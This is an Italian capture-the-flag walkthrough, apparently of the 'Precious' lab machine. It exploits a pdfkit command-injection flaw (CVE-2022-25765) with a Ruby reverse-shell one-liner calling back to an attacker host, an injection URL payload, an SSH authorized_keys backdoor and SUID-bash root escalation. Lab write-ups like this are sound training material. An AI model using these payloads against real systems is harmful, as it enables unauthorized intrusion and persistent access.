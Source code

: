 
### 1. Scan delle porte per cercare i servizi disponibili sul Server

```bash
nmap -sC -sV -oA nmap/scan 10.10.11.189 -v
```

![nmap](imgs/nmap.JPG)

- __Porta 22 (SSH)__ :OpenSSH 8.4p1 Debian 5+deb11u1 (protocolo 2.0)
La versione del servizio OpenSSH ci informa anche su quale distribuzione Linux si basa la macchina Server, in questo caso è _Debian_.

- __Porta 80 (HTTP)__: Nginx 1.18.0
Sulla porta 80 è in ascolto un WebServer Nginx, tra gli header della risposta notiamo un redirect verso http://precious.htb/, a tal proposito aggiungiamo questo dominio all'interno del file _/etc/hosts_ di Linux.

![hosts](imgs/hosts.JPG)

Se riproviamo ad eseguire lo stesso comando Nmap otteniamo ulteriori informazioni tra gli header della risposta riguardo un particolare modulo associato ad Nginx chiamato __Phusion Passenger__, si tratta di un Web Server integrabile con HTTP Apache o Nginx che supporta l'esecuzione di applicazioni basate su Ruby, NodeJS e Python.

![nmap1](imgs/nmap1.JPG)

### 2. Analisi della Web Application

All'indirizzo _http:\/\/precious.htb_ troviamo una web application che si presenta in questo modo:

![web](imgs/web.JPG)

Sostanzialmente ci consente di fornire degli URL corrispondenti a delle pagine Web e trasformarle in file PDF scaricabili.

Per testare l'applicazione ho creato un veloce web server sulla mia macchina Linux in ascolto sulla porta 8888 tramite questo comando Python3 eseguito nella directory _/var/www/html_ in cui è presente un semplice file index.html.

```bash
python3 -m http.server 8888
```

A questo punto basta sottoporre all'applicazione l'URL _http:\/\/10.10.14.99:8888_ e  immediatamente verrà scaricato un file PDF nominato con caratteri casuali contenente la versione PDF del nostro file index.html.

Nel mio caso il file index.html è la pagina di benvenuto di nginx, perciò il file PDF si presenta in questo modo:

![risposta](imgs/risposta.JPG)

Analizzando il file PDF appena scaricato con il tool _exiftool_ notiamo che è stato generato tramite il modulo __pdfkit__ versione 0.8.6 che è vulnerabile ad una Command Injection ([CVE-2022-25765](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)), questa si verifica quando l'input non è sanitizzato correttamente.

![exiftool](imgs/exiftool.JPG)

Questa vulnerabilità può essere sfruttata per ottenere una limitata reverse shell eseguendo questo comando _ruby_ sul server.

```bash
ruby -rsocket -e'exit if fork;c=TCPSocket.new("10.10.14.xx",9999);loop{c.gets.chomp!;($_=~/cd (.+)/i?(Dir.chdir($1)):(IO.popen($_,?r){|io|c.print io.read}))rescue c.puts "failed: #{$_}"}'
```

Adesso mettiamoci in ascolto sulla porta 9999

```bash
nc -lnvp 9999
```

A questo punto il payload da sottomettere all'applicazione per ottenere la shell è:

```bash
http://10.10.14.99/?url='%20`<PAYLOAD>`'
```

Al posto di \<PAYLOAD\> mettiamo il comando ruby precedente.

Adesso abbiamo una shell direttamente sul server!

### Abuso delle chiavi per ottenere una Shell SSH

Sulla macchina locale eseguiamo questo comando per generare la coppia di chiavi pubblica e privata:

![keygen](imgs/keygen.JPG)

Copiamo la chiave pubblica nel file _authorized\_keys_.

![authorized_keys](imgs/authorized_keys.JPG)

Trasportiamo questo file sulla macchina remota all'interno della directory _/home/ruby/.ssh_ tramite la reverse shell ottenuta precedentemente.

Per farlo creiamo nuovamente un server in ascolto sulla porta 8000 in _~/.ssh_

![server](imgs/server.JPG)

E sulla macchina remota nella directory _/home/ruby/.ssh_ scarichiamo file _authorized\_keys_ dal nostro server. 

![authorized_keys2](imgs/authorized_keys1.JPG)

Ora colleghiamoci tramite protocollo SSH come utente _ruby_ senza la necessità di sottoporre la password.

![ssh](imgs/got_ssh.JPG)

### Privilege escalation

Enumeriamo i file con bit SUID attivo

![suid](imgs/suid.JPG)

Il binario __/usr/bin/bash__ è posseduto da __root__ quindi con un semplice comando possiamo effettuare l'escalation da utente _ruby_ a utente _root_

![root](imgs/root.JPG)